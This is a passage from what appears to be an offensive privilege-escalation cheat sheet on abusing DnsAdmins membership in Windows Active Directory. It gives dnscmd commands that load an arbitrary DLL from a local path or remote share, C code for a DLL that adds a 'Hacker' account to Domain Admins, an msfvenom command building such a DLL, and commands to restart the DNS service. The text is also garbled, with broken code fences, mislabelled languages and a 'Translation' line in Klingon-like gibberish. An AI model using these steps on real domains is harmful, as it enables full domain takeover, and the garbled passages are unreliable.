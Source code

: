 Members can make the DNS server load an arbitrary DLL (either locally or from a remote share) using commands such as:
```powershell
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:
```

```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```
**Translation:**

DNS qapHa' (yInob) qay'be' vItlhutlh: DLL vItlhutlhlu'be'.
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
#### Mimilib.dll